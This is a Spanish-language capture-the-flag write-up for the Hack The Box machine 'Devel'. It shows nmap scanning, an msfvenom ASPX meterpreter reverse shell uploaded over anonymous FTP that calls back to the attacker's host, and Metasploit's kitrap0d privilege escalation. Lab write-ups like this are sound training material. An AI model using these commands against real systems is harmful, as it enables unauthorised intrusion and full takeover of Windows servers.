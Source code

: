 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 3/10/2017'
---
```


# Devel

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.5
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-15 154035.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.5
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 21 (FTP):** FTP es un protocolo de transferencia de archivos, y su mayor riesgo es la posibilidad de acceso anónimo o el uso de credenciales débiles. Asegúrate de verificar si el acceso anónimo está habilitado, ya que esto permitiría a cualquier persona conectarse sin credenciales. También es importante comprobar si el servidor está configurado para permitir la conexión sobre FTP sin cifrado, ya que los datos y las credenciales se transmiten en texto claro, lo que facilita la interceptación.
* **Puerto 80 (HTTP):** Este puerto generalmente está asociado a servidores web. Si el servicio está ejecutando un servidor web como Apache, Nginx o IIS, es recomendable buscar vulnerabilidades conocidas relacionadas con el software y versiones en uso (por ejemplo, a través de CVEs). Además, es importante realizar pruebas de seguridad en las aplicaciones web que se ejecutan en el servidor, como inyecciones SQL, Cross-Site Scripting (XSS) o vulnerabilidades de escalada de privilegios.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,80 -v 10.10.10.5
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es un **Microsoft IIS**. Como tenemos el puerto 21 con el usuario Anonymous podemos subir un archivo **.aspx** y hacer una Reverse Shell.

### 🚀 **EXPLOTACIÓN**

Creamos el archivo malicioso.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx -o shell.aspx
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lo subimos a través de FTP.

```bash
ftp 10.10.10.5
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos mediante la URL y conseguimos la conexión con **meterpreter**.

```
shell
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se accede al directorio `C:\Windows\TEMP` para operar en un área temporal segura.

```bash
meterpreter > cd %TEMP%
meterpreter > pwd
```

Se mantiene la sesión abierta mientras se ejecutan otros módulos en Metasploit.

```bash
meterpreter > background
```

Buscar el módulo de recomendación de exploits locales y ejecutarlo.

```
msf6 exploit(multi/handler) > search suggester
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > show options
msf6 post(multi/recon/local_exploit_suggester) > sessions -l
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el exploit `exploit/windows/local/ms10_015_kitrap0d.`

```bash
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.7
msf6 exploit(windows/local/ms10_015_kitrap0d) > sessions -l
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 2
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
